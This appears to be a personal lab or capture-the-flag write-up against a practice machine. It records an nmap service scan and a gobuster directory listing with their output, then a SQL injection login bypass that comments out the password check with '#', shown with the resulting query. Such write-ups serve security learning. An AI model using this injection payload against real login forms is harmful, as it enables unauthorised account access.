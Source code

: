 ----
### Initial IPs

Attacker = 10.10.14.136
Victim = 10.129.213.192

----

### Initial Scan 

- did the nmap scan  found that it is running Apache 2.4.38 on a Debian based system
```shell
nmap -sV 10.129.213.192
Starting Nmap 7.93 
Nmap scan report for 10.129.213.192
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))

```
- Given that it is running a webserver I decided to open the IP in the browser, found that there is a login page
![[Pasted image 20230323180934.png]]
- Based on experience I decided to use gobuster to see if there are any other directories, found the folders attached to the webserver
```shell
[+] Url:                     http://10.129.213.192
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/03/23 14:14:53 Starting gobuster in directory enumeration mode
===============================================================

/.hta                 (Status: 403) [Size: 279]
/.htaccess            (Status: 403) [Size: 279]
/.htpasswd            (Status: 403) [Size: 279]
/css                  (Status: 301) [Size: 314] [--> http://10.129.213.192/css/]                                                                          
/fonts                (Status: 301) [Size: 316] [--> http://10.129.213.192/fonts/]                                                                        
/images               (Status: 301) [Size: 317] [--> http://10.129.213.192/images/]                                                                       
/index.php            (Status: 200) [Size: 4896]
/js                   (Status: 301) [Size: 313] [--> http://10.129.213.192/js/]                                                                           
/server-status        (Status: 403) [Size: 279]
/vendor               (Status: 301) [Size: 317] [--> http://10.129.213.192/vendor/]  
```
- Didnt find anything particually of interest so tried to login to the form using default this tdidnt work
- So tried SQL injecttion, as we don't know the password we need to comment that out. Using # will comment that out when we put into the username field and make sure to fill the password field to bypass the client side filtering.
- the query will look like the following, the # will drop the AND and get the full record
```sql
SELECT * from users where username='admin'#' AND password='a'
```